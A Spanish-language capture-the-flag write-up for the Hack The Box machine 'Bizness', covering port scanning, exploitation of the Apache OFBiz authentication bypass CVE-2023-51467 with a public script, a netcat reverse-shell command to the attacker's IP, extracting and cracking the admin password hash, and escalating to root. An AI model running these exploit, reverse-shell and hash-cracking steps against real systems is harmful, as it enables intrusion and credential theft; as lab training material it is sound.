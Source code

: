 ```yaml
---
layout: writeup
category: pingu489
chall_description: 
points: 20
solves: 
tags: 
date: 2024-04-27
comments: true
---
```

---
Hack The Box 

Maquina: Bizness

Objetivo: 

Dificultad: Facil


---
## Escaneo
Fase 1: Escaneo de puertos 

Con nmap haremos un escaneo con la ip que nos proporciona htb para ver que puertos tiene abiertos y esta utilizando la maquina.



```
$ nmap -sV 10.10.11.252
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-02 05:32 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
Esta utilizando el puerto 80, asi que tiene una pagina web activa.

(foto pagina web )

Intente utilizar varias veces la herramienta que utilice en la maquina devvortex pero me daba un error asi que probe "dirbuster" que es una alternativa y busque los directorios ocultos y uno me llamo la atencion... se llamaba "control/login", al tener el nombre de login supuse que seria el login de la pagina.
```
(pingu㉿kaliPingu)-[~]
└─$ dirbuster -u https://bizness.htb                      
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200

Dir found: /control/login/ - 200


```

Y lo era!

( foto login)

Probe las tipicas contraseñas como "admin" "root" pero nada... y me fije arriba que ponia : OFBizz

Busque en google y formaba parte de apache, el sistema de host de linux y tras buscar una vulnerabilidad encontre una llamada : CVE-2023-51467

Esta vulnerabilidad permite a los atacantes y eludir los procesos de autenticación,permitiendo ejecutar codigo.... asi que era perfecto!

En el siguiente enlace de google tenia ya el repositorio github!

https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass


Con el comando "git clone" copiaremos el repositorio y comprobaremos que lo tenemos todo dentro dela carpeta.
```
(pingu㉿kaliPingu)-[~/Escritorio]
└─$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
Clonando en 'Apache-OFBiz-Authentication-Bypass'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 19 (delta 3), reused 7 (delta 1), pack-reused 5
Recibiendo objetos: 100% (19/19), 51.44 MiB | 12.47 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
                                                                                                               
┌──(pingu㉿kaliPingu)-[~/Escritorio]
└─$ cd Apache-OFBiz-Authentication-Bypass 
                                                                                                               
┌──(pingu㉿kaliPingu)-[~/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─$ ls
exploit.py  README.md  xdetection.py  ysoserial-all.jar

```

Vayamos por partes, como dijo jack el destripador:

Primero nos pondremos en escucha por el puerto 444

```
(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# nc -lvnp 4444

```
Iremos a otra terminal dejando esa en escucha.

En esta nueva terminal ejecutarmeos el exploit con el comando como nos explica en el repositorio github pero añadiremos un extra.

Desde la web https://www.revshells.com crearemos un comando para la reversell poniendo nuestra ip ( la que nos proporciona la VPN de HTB y) y elpuerto 4444 y copiaremos el comando y lo pondremos al final entre las comillas.

```
─(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -c sh 10.10.14.13 4444'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

Ahora iremos a la otra ventana de la terminal con el puerto en escucha 444 y podremos escrbir id y veremos que estaremos dentro.ponemos el comando para indicarle la bash y asi trabajar mas comodos!

## Primera bandera


```
script /dev/null -c /bin/bash
```

Ahora nos moveremos por los directorios hacia atras usando los ".." y iremos a la carpeta del usuario ofbiz y haremos cat con el archivo y veremos la bandera.

```
ofbiz@bizness:/opt/ofbiz$ ls
ls
APACHE2_HEADER  DOCKER.md                INSTALL              runtime
applications    docs                     lib                  SECURITY.md
build           framework                LICENSE              settings.gradle
build.gradle    gradle                   NOTICE               themes
common.gradle   gradle.properties        npm-shrinkwrap.json  VERSION
config          gradlew                  OPTIONAL_LIBRARIES
docker          gradlew.bat              plugins
Dockerfile      init-gradle-wrapper.bat  README.adoc
ofbiz@bizness:/opt/ofbiz$ cd ..
cd ..
ofbiz@bizness:/opt$ ls
ls
ofbiz
ofbiz@bizness:/opt$ cd ..
cd ..
ofbiz@bizness:/$ ls
ls
bin   home            lib32       media  root  sys  vmlinuz
boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
dev   initrd.img.old  libx32      opt    sbin  usr
etc   lib             lost+found  proc   srv   var
ofbiz@bizness:/$ cd home
cd home
ofbiz@bizness:/home$ ls
ls
ofbiz
ofbiz@bizness:/home$ cd ofbiz
cd ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
```

Ya tenemos la primera bandera! ahora vamos a por la segunda :D

## Ser Root

Dentro del directorio "/opt/ofbiz/framework/resources/templates" Tendremos
un archivo llamado AdminUserLoginData.xml y tras leerlo con cat veremos un codigo con "SHA" significa que la contraseña esta encripatada y tendremos que desencripatarla, pero esa no es la que necesitamos!

Iremos a la direccion : /opt/ofbiz/runtime/data/derby/ofbiz/seg0 y aqui veremos con "ls" muchisimos archivos , pues con grep filtraremos para ver todo lo que contiene SHA y strings.


 ```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ strings * | grep SHA
strings * | grep SHA
SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
 ```
Y.. BINGO! ya tenemos el sha bueno, ahora toca desencriparlo

Utilizaremos una herramienta que he encontrado en github

https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker

Con git clone copiaremos el repositorio en el escritorio y usaremos esa clave para descifrar la contraseña.


```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

```
# python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' wordlist /home/pingu/Escritorio/Diccionarios/rockyou.txt
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!


```

Como veremos la contraseña es monkeybizness asi que haremos el comando su root y pondremos la contraseña, luego iremos a "cd /root " y con ls veremos la ultima bandera.

```
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# cd /root
cd /root
root@bizness:~# ls
ls
root.txt
root@bizness:~# cat root.txt
cat root.txt

```



Conclusion: La verdad es que esta maquina ha requerido mas busquedas en internet, sobretodo para descifrar la clave del sha, por que la primera que descubrimos no es y hay que buscar mas a fondo en los archivos de la carpeta, pero al final ayudandonos de google ( que para eso esta) conseguimos sacarla.
Una maquina que me ha gustado mucho por el uso del descifrado de contraseñas!







https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker